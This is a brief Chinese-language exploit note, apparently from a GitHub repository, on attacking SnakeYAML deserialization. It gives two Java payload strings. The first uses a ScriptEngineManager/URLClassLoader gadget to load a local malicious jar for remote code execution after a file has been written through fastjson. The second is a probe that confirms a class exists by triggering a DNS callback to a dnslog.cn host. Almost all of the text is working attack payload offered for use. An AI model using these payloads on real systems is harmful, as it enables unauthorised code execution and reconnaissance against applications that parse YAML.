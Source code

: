 # snakeyaml

## 不出网利用
>通过fastjson写文件如何本地加载rce


https://xz.aliyun.com/t/10655

加载本地
```java
String data2 = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"file:E:/yaml-payload.jar\"]\n" +
                "  ]]\n" +
                "]";
```

## 判断类存在
```java
 String poc = "[!!判断的类全类名 []: 0, !!java.net.URL [null, \"http://ixvoxg.dnslog.cn\"]: 1]";
```
